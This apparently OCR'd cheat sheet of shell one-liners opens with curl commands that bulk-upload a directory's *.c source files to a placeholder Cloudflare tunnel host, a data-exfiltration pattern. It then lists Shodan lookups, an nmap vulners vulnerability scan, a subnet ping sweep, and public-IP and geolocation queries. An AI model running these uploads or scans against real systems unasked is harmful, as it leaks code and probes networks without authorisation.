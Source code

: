 ```
curl -T file.dat https://example-foo-bar-lights.trycloudflare.com
# Create a directory remotely
curl -X MKCOL https://example-foo-bar-lights.trycloudflare.com/sources
# Create a directory hirachy remotely
find . -type d | xargs -I{} curl -X MKCOL https://example-foo-bar-lights.trycloudflare.com/sources/{}
# Upload all *.c files (in parallel):
find . -name '*.c' | xargs -P10 -I{} curl -T{} https://example-foo-bar-lights.trycloudflare.com/sources/{}
```

## SHODAN quick search
```
IP=ip_address
curl https://internetdb.shodan.io/$IP | jq
```

## NMAP fast vulners scan
```
nmap -vv -A -F -Pn --min-rate 10000 --script vulners.nse --script-timeout=5s $IP
```
```
nmap -r -sn -PR 192.168.0.1/24
```

## DISCOVER PUBIP
```
curl -s wtfismyip.com/json | jq
curl ifconfig.me
dig +short myip.opendns.com @resolver1.opendns.com
host myip.opendns.com resolver1.opendns.com
```

## DISCOVER GEOLOCATION
```
curl https://ipinfo.io/8.8.8.8 | jq
curl http://ip-api.com/8.8.8.8 | jq
curl https://cli.fyi/8.8.8.8 | jq
```
